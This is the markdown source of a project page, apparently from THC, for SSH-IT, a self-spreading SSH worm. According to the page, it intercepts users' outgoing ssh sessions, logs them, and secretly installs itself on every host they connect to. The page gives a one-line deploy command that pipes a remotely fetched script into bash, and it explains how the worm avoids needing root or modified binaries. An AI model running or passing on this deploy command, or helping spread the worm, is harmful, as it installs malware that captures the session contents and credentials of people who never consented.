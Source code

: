 ```yaml
---
layout: default
title: SSH-IT
description: An autonomous SSH worm that intercepts outgoing SSH connections every time a user uses ssh.
---
```


<div style="width:80%; margin:auto">
    <script id="asciicast-LNmtdthAM1WewOs12ZnHd8RyC" src="https://asciinema.org/a/LNmtdthAM1WewOs12ZnHd8RyC.js" async data-autoplay=1 data-speed="1.5"></script>
</div>

## Install / Deploy

SSH-IT can be installed and deployed with a [single command](deploy):

```shell
bash -c "$(curl -fsSL ssh-it.thc.org/x)"
```

[Read more](deploy) and learn some [tricks](deploy).

## What it does

SSH-IT intercepts outgoing SSH connections every time a user uses `ssh`. It logs the session and (secretly) installs itself onto the newly connected system. SSH-IT keeps intercepting, logging and spreading.

## How it works

SSH-IT executes the original ssh command inside a fake PTY harness and intercepts any user input and output. None of the system binaries are modified and it does not need `ptrace()`. It does not require root or superuser privileges.

Read our [detailed explanation](how-it-works) for more information.

## Contact

{% include contact-details.md %}
